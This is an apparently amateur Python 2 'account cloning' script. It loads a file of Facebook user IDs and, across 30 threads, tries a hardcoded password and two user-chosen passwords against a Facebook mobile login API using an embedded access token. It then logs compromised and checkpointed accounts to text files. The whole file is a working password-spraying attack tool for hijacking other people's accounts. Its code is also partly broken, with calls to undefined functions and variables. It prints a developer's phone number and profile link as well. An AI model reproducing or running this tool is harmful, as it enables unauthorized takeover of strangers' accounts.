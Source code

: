 #!/usr/bin/python
# coding=utf-8

import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,requests,mechanize
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser


reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1)
br.addheaders = [('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]
br.addheaders = [('user-agent','Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]


def acak(b):
    w = 'ahtdzjc'
    d = ''
    for i in x:
        d += '!'+w[random.randint(0,len(w)-1)]+i
    return cetak(d)


def cetak(b):
    w = 'ahtdzjc'
    for i in w:
        j = w.index(i)
        x= x.replace('!%s'%i,'\033[%s;1m'%str(31+j))
    x += '\033[0m'
    x = x.replace('!0','\033[0m')
    sys.stdout.write(x+'\n')


def jalan(z):
	for e in z + '\n':
		sys.stdout.write(e)
		sys.stdout.flush()
		time.sleep(3.0 / 200)
def tik():
    titik = [
     '   ', '.  ', '.. ', '...', '.. ', '.  ', '   ']
    for o in titik:
        print '\r\x1b[1;91m     [\xe2\x97\x8f] \x1b[1;92mLoa\x1b[1;90mding \x1b[1;97m' + o,
        sys.stdout.flush()
        time.sleep(0.5)




back = 0
oks = []
id = []
cpb = []
vulnot = "\033[31mNot Vuln"
vuln = "\033[32mVuln"

os.system("clear")

####Logo####

logo1 = """


      \x1b[0;33m ######   #######  ##     ## #### 
      \x1b[0;35m##    ## ##     ## ###   ###  ##  
      \x1b[0;33m##       ##     ## #### ####  ##  
       \x1b[0;35m######  ##     ## ## ### ##  ##  
      \x1b[0;33m      ## ##     ## ##     ##  ##  
      \x1b[0;35m##    ## ##     ## ##     ##  ##  
       \x1b[0;33m######   #######  ##     ## #### 
       \x1b[101m\x1b[37;1mCODED BY anzamam-Altaf\x1b[0m
       \x1b[101m\x1b[37;1m  God is greater  \x1b[0m
\033[1;97m-----------------------------------------------
\x1b[0;31m⋟\x1b[0;32m DEVOLPER   : \x1b[0;31m ANZAMAM ALTAF   
\x1b[0;31m⋟ \x1b[0;32mWHATSAAP   :  \x1b[0;31m03557117981 
\x1b[0;31m⋟ \x1b[0;32mFACEBOOK   https://www.facebook.com/anzamam.altafchughtai.391:  \x1b[0;31
\033[1;97m-----------------------------------------------"""
 


##### LICENSE #####
#=================#
def lisensi():
    os.system('clear')
    login()
####login#########
def login():
        os.system('clear')
        print logo1
      
        print '\x1b[1;97m(1) Without Cloning'
        pilih_Somi()

def pilih_ANZAMAM():
    ANZAMAM = raw_input("\n\033[1;95m•➢ \033[1;96m")
    if ANZAMAM =="":
        print "\x1b[1;97mFill In Correctly"
        pilih_login()
    elif ANZAMAM =="1":              
    	tik()
        os.system("clear")
        print logo1
        
        
        
        try:

           
            idlist = raw_input("\033[1;97mfile  : ")
            for line in open(idlist,"r").readlines():
                id.append(line.strip())
        except IOError:
            print '[!] File Not Found'
            raw_input("\n[ Back ]")
            menu()
    elif Anzamam =='0':
    	tik()
        login()
    else:
        print '[!] Fill In Correctly'
        action()
    p = raw_input("\n\033[1;95mPassword➢ \033[1;96m")
    p1 = raw_input("\n\033[1;95mPassword➢ \033[1;96m")
    print 47* '\033[1;96m▬'
    xxx = str(len(id))
    jalan ('\033[1;96m➾ TOTAL IDS NUMBER : '+xxx)
    
    jalan ("\033[1;93m➾ PLEASE WAIT, PROCESS IS START ..")
    jalan ("\033[1;91m➾ TO STOP THIS PROCESS PRESS Ctrl THEN z")
    print 47* '\033[1;96m▬'
    def main(arg):
        global cpb,oks
        user = arg
        try:
            os.mkdir('save')
        except OSError:
            pass
        try:
            pass1 = "786786"
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +user+ '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;93m   (Open \x1b[1;96mNow\x1b[1;92m)  ' + user + '\x1b[1;91m ● \x1b[1;95m' + pass1                                       
                okb = open('sdcard/ids/successful.txt', 'a')
                okb.write(user+pass1+'\n')
                okb.close()
                oks.append(user+pass1)
            else:
                if 'www.facebook.com' in q['error_msg']:
                    print '\033[1;92m   (Aftar \x1b[1;97m7days\x1b[1;93m) ' + user + '\x1b[1;91m ● \x1b[1;96m ' + pass1
                    cps = open('sdcard/ids/checkpoint.txt', 'a')
                    cps.write(user+pass1+'\n')
                    cps.close()
                    cpb.append(user+pass1)
                else:
                    pass2 = p1
                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +user+ '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                    q = json.load(data)
                    if 'access_token' in q:
                        print '\x1b[1;93m   (Open \x1b[1;96mNow\x1b[1;92m)  ' + user +  '\x1b[1;91m ● \x1b[1;95m' + pass2
                        okb = open('sdcard/ids/successful.txt', 'a')
                        okb.write(user+pass2+'\n')
                        okb.close()
                        oks.append(user+pass2)
                    else:
                        if 'www.facebook.com' in q['error_msg']:
                            print '\033[1;92m   (Aftar \x1b[1;97m7days\x1b[1;93m) ' + user + '\x1b[1;91m ● \x1b[1;96m' + pass2
                            cps = open('sdcard/ids/checkpoint.txt', 'a')
                            cps.write(user+pass2+'\n')
                            cps.close()
                            cpb.append(user+pass2)
                                                                                                                                            
                                                                                                                                                                                                         
        except:
            pass
        
    p = ThreadPool(30)
    p.map(main, id)
    print 50* '\033[1;91m-'
    print 'Process Has Been Completed ...'
    print 'Total Online/Offline : '+str(len(oks))+'/'+str(len(cpb))
    print('Cloned Accounts Has Been Saved : save/cloned.txt')
    jalan("Note : Your Offline account Will Open after 10 to 20 days")
    print ''
    
    raw_input("\n\033[1;92m[\033[1;92mBack\033[1;95m]")
    login() 
          
if __name__ == '__main__':
    login()



